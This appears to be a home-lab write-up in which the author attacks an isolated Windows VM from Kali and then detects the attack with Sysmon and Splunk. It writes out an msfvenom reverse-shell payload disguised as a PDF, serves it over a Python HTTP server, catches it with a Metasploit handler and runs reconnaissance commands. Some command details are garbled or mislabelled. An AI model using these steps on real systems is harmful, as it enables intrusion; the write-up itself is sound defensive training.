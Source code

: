 Objective
I created this lab to have a safe space where I can safely experiment with both red and blue team roles in a live environment. In this lab I will create a virtual network with two endpoints. One of the VM's will be our blue team machine(Windows Box) and the other will be our red team machine(Kali-linux). I will place both machines on a private network and 

Skills Learned

Log analysis
Configuration of a System Information Event Manager(SIEM)
Red/blue teaming
Virtual machine configuration
Experience in a simulated live environment

Tools Used
Splunk
Sysmon
Metasploit

Security Information and Event Management (SIEM) system for log ingestion and analysis.
Network analysis tools (such as Wireshark) for capturing and examining network traffic.
Telemetry generation tools to create realistic network traffic and attack scenarios.
Steps

Spin up TWO VMs, One being Windows and the other being Kali Linux. On both VMs set the network adapter to the Internal Network setting while making both VM IPs static to the same network. This network scheme was selected for security reasons to keep the VMs from being accessible from the open web, while also being able to communicate with each other.
The IP's in this lab are: Windows VM - 192.168.33.2, Kali VM - 192.168.33.3 
For this lab, we will open up the RDP port(3389) and turn off the firewall on our Windows VM.

<img width="583" alt="image" src="https://github.com/user-attachments/assets/5b423ff8-596e-4f76-95a8-854c507c9b36" />

Ref 1: Virtual Box Settings

To set up our blue team environment on our Windows VM, we will be configuring Sysmon on the endpoint to gather event logs and send them directly to our Splunk instance, also installed on our Windows machine.
We did this by allocating a Sysmon config file from Github, copying it to the directory containing the Sysmon application, and running the command ./sysmon64.exe -i sysmonconfig.xml in Powershell.
Installing Sysmon will enhance our ability to capture system events.(Since I don't want to expose these VMs to the open web, I downloaded the config file from my main PC, enabled bidirectional drag and drop on the VM, and copied the file directly into the VM.) 
For Splunk configuration, I installed the Sysmon add-on and created the "endpoint" index. Our Sysmon config file will point to the index we created by its name, allowing Sysmon to send logs to our Splunk instance


<h3>Weaponization</h3>
  
  To create telemetry from our Kali VM to our Windows VM, we are going to use the well-known Metasploit pentesting tool.
We will start by creating the Malware payload with this command: msfvenom -p windows/x64/meterpreter_reverse_tcp lhost-192.168.33.3 -f exe Quarterlyreport.pdf.exe
-p chooses the payload we want to use provided by the Metasploit tool. 
"lhost", determines which IP this reverse shell payload will remote back to when executed.
-f will decide the file name, we will name it Quarterlyreport.pdf.exe to entice the "end user" to click on it.

![Screenshot 2025-03-12 072905](https://github.com/user-attachments/assets/17e8deb8-90ab-4509-b982-a718275314f4)

Ref 2: Malicious Payload

<h3>Delivery/Installation</h3>

Now we need to deliver the payload to the end user.
To do so, we will host an HTTP Python server by running the command found below inside the directory where the payload was saved to
python3 -m http.server 9999. 
On our Windows machine we will search the IP of our Kali box followed by ":9999" which is the port designated in our Python command. 

![executing the file](https://github.com/user-attachments/assets/b5601151-d80e-4cca-9425-6304a0f62d4e)

Ref 3: Delivering the payload to the victim

After searching this, it will take us to the directory in our Kali VM. We will then download and execute the malicious file we created.
We see on our Kali terminal that a GET request was logged
After running "netstat -anob" on the Windows VM we see a network connection established to our Kali box 

<h3>Command & Control</h3>

Now that we have successfully delivered and installed our malware, it's time to carry out the exploitation phase of our attack.
We do this by opening the Msfconsole on our Kali VM and configuring the handler by setting the payload to "windows/x64/meterpreter/reverse_tcp" and setting our local IP and the port we want the exploit to use on the victim machine.
After configuring the handler, we insert the exploit into the CLI to initiate the reverse TCP handler.
The session has been opened with our victim machine (192.168.33.2).

![Updated handler](https://github.com/user-attachments/assets/1106b392-a05b-4a9f-a284-8d72a3783490)

Ref 4: Reverse Shell

Now we will run the following commands in our handler to open up a shell and create network traffic to analyze in our Splunk instance.
Commands: shell, netstat, ipconfig, net user, net group.

<h3>Log Analysis</h3>

Time to do some threat hunting in our Splunk instance.
We will start by searching for our index in Splunk.
I have a suspicion that the 192.168.33.3 IP we are sending traffic to is a threat, let's filter traffic that is being sent to that IP.

![Screenshot 2025-03-10 211850](https://github.com/user-attachments/assets/63eb2f00-f37e-44f8-a4ad-3107ed305bd4)

Ref 5: Splunk Query by IP

After analyzing the event, we see that one of the events has a suspicious .exe file with two file extensions in the name
Luckily, we are running Sysmon, which allows the SourceProcessGUID, if we filter by this field, we can display all events related to this suspicious file 

![SIEM SourceProcessGUID](https://github.com/user-attachments/assets/d41747eb-220b-4aaf-a606-6870af1f8ff4)

Ref 6: Splunk Event Details

We queried the SourceProcessGUID and organized the output with the table command to display the Time, ParentImage, Image, and Command Line

![Final SIEM](https://github.com/user-attachments/assets/e96640cd-65a9-40e6-a0a4-0e3663bc74e8)

Ref 7: Shell Commands With a Parent Process of Quarterlyreport.pdf.exe

<h3>Incident Response</h3>

Upon analysis, we see commands being executed affiliated with an IP that is not the host's, sound the alarms.
In a real life scenario, this endpoint would be immediately quarantined from the rest of the network to mitigate damage from spreading.
The IP would also be blacklisted and the firewall reconfigured to block this suspected RAT throughout the network.

